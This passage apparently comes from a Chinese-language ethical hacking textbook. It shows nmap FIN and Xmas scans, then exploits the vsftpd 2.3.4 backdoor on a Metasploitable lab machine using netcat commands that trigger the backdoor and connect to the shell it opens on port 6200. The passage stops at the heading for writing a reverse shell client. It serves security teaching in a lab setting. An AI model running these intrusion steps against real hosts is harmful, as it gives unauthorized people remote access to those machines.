 ```
kali@kali:~$ nmap -sF <Metasploitable IP address>
```

除了 FIN 扫描，`nmap`还允许你进行*圣诞树扫描*，这是一种使用奇特数据包配置绕过检测并获取系统信息的扫描方式。圣诞树扫描会在 TCP 数据包中设置 FIN、PSH 和 URG 标志。PSH 和 URG 标志很少使用，而且许多系统的 TCP/IP 标准实现不完整或错误，无法统一处理这些标志。通过检查系统如何响应这些标志，攻击者可以推测出 TCP/IP 的实现方式，并进一步了解系统的情况。你可以使用以下命令运行圣诞树扫描：

```
kali@kali:~$ nmap -sX <Metasploitable IP address>
```

**注意**

*之所以称其为圣诞树扫描，是因为当你在 Wireshark 中查看数据包的位时，它们看起来像圣诞树上的灯泡，如图 4-6 所示。*

![image](img/ch04fig06.jpg)

*图 4-6：圣诞树扫描*

#### ***利用漏洞服务***

一旦你知道了正在运行的应用程序的版本，就可以在国家漏洞数据库中搜索可能为你提供进入服务器的漏洞，网址是*[`nvd.nist.gov/`](https://nvd.nist.gov/)*。在第八章中，你将学习如何自动化这一发现过程。

如果系统管理员定期自行进行扫描并保持系统更新，攻击者很难利用已知的漏洞获得访问权限。在这种情况下，攻击者需要发现一个未知的漏洞。这些被称为*零日*漏洞，因为受害者并不知道这些漏洞，因此没有时间修复它们。这些漏洞可能会带来利润。例如，2019 年，一种 Android 和 iOS 的零点击漏洞分别以超过二百万美元的价格出售给零日漏洞公司 Zerodium。许多零日漏洞是通过一种叫做*模糊测试*的技术发现的，我们将在第九章中探讨这一点。

现在，你将使用第一章中介绍的 vsftp 后门来进入 Metasploitable 服务器。从`nmap`扫描结果可以看到该系统运行的是 vsftp 2.3.4 版本，这是一个具有后门的版本，允许攻击者访问系统。让我们打开后门。在 Kali Linux 中打开一个新的终端并运行以下命令：

```
kali@kali:~$ nc <Metasploitable IP address> 21
user Hacker:)
pass invalid
```

当后门被打开时，它会在端口 6200 上创建一个 shell。这个端口号是预先编程到后门中的。如果你成功解锁了后门，终端看起来会挂起。保持此终端打开，再启动一个新终端。在新终端中，使用以下命令连接到在端口 6200 上运行的 shell，通过后门进入：

```
kali@kali:~$ nc <Metasploitable IP address> 6200
```

现在你已经进入了系统，接下来在此终端中执行的命令将在你刚刚入侵的服务器上执行。你将稍后使用这个终端来下载你的反向 shell，所以请保持它打开。这个 shell 将使你在系统管理员发现后门漏洞并修补 vsftp 后，仍然能够访问该机器。

### **编写反向 Shell 客户端**
